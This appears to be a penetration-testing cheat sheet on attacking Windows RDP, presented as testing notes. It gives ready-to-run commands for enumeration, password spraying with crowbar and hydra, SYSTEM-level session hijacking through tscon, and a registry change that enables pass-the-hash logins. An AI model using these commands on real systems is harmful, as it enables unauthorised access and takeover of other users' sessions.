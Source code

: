 # RDP \[3389]

## Enumeration

```
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```

## Brute force

{% hint style="danger" %}
**you could lock accounts if the failed attempts are exceeded.**
{% endhint %}

## **Password Spraying**

<pre><code><strong># crowbar
</strong><strong>crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
</strong># hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
</code></pre>

> Password spraying is a form of brute force attack where you use one password and iterate through all user names. The account could still get locked if not careful.

## Session stealing

With **SYSTEM permissions** you can access any **opened RDP session by any user** without need to know the password of the owner.

**Get openned sessions:**

```
query user
```

**Access to the selected session**

```
tscon <ID> /dest:<SESSIONNAME>
```

**Access to the selected session as local administrator priv**

```
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#0"
# create the service which will be ran as SYSTEM priv.
net start sessionhijack
# start the service
```

{% hint style="warning" %}
This no longer works on Server 2019
{% endhint %}

## **Service Interaction**

```shell-session
xfreerdp /v:<target-IP> /u:<user> /p:<pass>
rdesktop <target-IP> -u <user> -p <pass>
```

<figure><img src="../../.gitbook/assets/image (64) (1).png" alt=""><figcaption><p>This error could occur during /pth if DisableRestrictedAdmin is not set</p></figcaption></figure>

```
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

[CVE-2019-0708](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2019-0708)
